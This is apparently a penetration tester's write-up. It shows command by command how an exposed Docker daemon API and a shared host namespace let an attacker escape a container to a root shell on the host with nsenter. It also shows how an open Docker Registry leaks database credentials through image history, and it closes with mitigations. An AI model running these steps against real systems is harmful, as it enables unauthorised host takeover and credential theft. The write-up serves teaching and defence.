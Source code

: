 # Abusing docker misconfiguration
I took advantage of chained misconfiguration to escape the container and get access to host OS
## First misconfiguration
The container was externally exposed

    nmap -sV -p 2375 192.168.1.100
    ...
    PORT     STATE SERVICE VERSION
    2375/tcp open  docker  Docker 20.10.20 (API 1.41)
    Service Info: OS: linux
Find remote running containers

    docker -H tcp://192.168.1.100:2375 ps                             
    CONTAINER ID   IMAGE     ...   
    2225bfdee7ec   devsrv01  ...       

Get a shell inside the remote container

    docker -H tcp://192.168.1.100:2375 exec -it 2225bfdee7ec /bin/bash
    root@2225bfdee7ec:/etc/ssh#     
## Inspect the container

    root@2225bfdee7ec:/etc/ssh# ps aux
    USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
    root           1  0.0  0.5 102540 11388 ?        Ss   13:14   0:03 /sbin/init
    ...
There are a total of 191 running process, very strange for a container: maybe the container is sharing the same namespace with the host OS? That would imply the container can communicate with the processes on the host.

## Abusing the second misconfiguration: shared host namespace
Here we are abusing <b>nsenter</b> command, that allows us to execute a processes in a differen namespace. 
In this scenario, since the container can see the <i>/sbin/init</i> process on the host machine, we can try to execute a shell on the host context. Let's give it a try: 

    root@2225bfdee7ec:/etc/ssh# hostname
    2225bfdee7ec
    root@2225bfdee7ec:/etc/ssh# nsenter --target 1 --mount --uts --ipc --net /bin/bash
    root@xxxxx.local:/# whoami
    root
And here we are!
For more information on the nsenter (namespace enter) command you can consult the related manual.

## Mitigations
Protect Docker daemon socket. To accomplish that you can:
1. Don't expose it
2. [Use SSH](https://docs.docker.com/engine/security/protect-access/#use-ssh-to-protect-the-docker-daemon-socket)
3. [Use TLS\HTTPS](https://docs.docker.com/engine/security/protect-access/#use-tls-https-to-protect-the-docker-daemon-socket). More information using [Self-signed certificates](https://gist.github.com/nicosingh/d8bf0defdd4c911bda3392e420d665dd)
4. Don't run containers in <b>privileged mode</b>. It's recommended assigning specific capabilities to a container, rather than running it with the --privileged flag. More info about capabilities [here](https://docs.docker.com/engine/security/#linux-kernel-capabilities).
5. Scan you docker images. Some toools are: docker scout, grype

## A final note
Actually I faced this scenario in a real engagement.

## Abuse Docker Registry to get repo manifest
### Discover

     nmap -sV docker-srv.local
     ...
     PORT     STATE SERVICE VERSION
    ...
    5000/tcp open  http    Docker Registry (API: 2.0)
    7000/tcp open  http    Docker Registry (API: 2.0)

### List all registered repo for the second registry

    curl http://docker-srv.local:7000/v2/_catalog
    {"repositories":["app01/webserver"]}

### List all tags related to the repo

    curl http://docker-srv.local:7000/v2/app01/webserver/tags/list
    {"name":"app01/webserver","tags":["prod"]}

### Get the related manifest file for the tag

    curl http://docker-srv.local:7000/v2/app01/webserver/manifests/prod
    ...
    {
       "schemaVersion": 1,
       "name": "app01/webserver",
       "tag": "prod",
       "architecture": "amd64",
       "fsLayers": [
          {
             "blobSum": "sha256:7a668bba7a1a84d9db8a2fb2826f777e64233780a110041db8d42b77515cf57"
          },
    ....
    "history": [
      {
         "v1Compatibility": "{\"architecture\":\"amd64\",\"config\":{\"Hostname\":\"\",\"Domainname\":\"\",\"User\":\"\",\
         ...
         "printf \\\"Username: admin\\\\nPassword: _admin$23_\\\\n\\\"... /var/www/html/database.config\"],\"Image\":\"sha256:1e4a2d11384ed8ac500f2762825c3f3d134ad5d78813a5d044357b66d4c91800\",\"Volumes\":null,\"WorkingDir\":\"\",\"Entrypoint\"
         ....

Above we can see that we retrived the credentials for the a DB, from the history.

## Explore an image
We can use [Dive](https://github.com/wagoodman/dive)
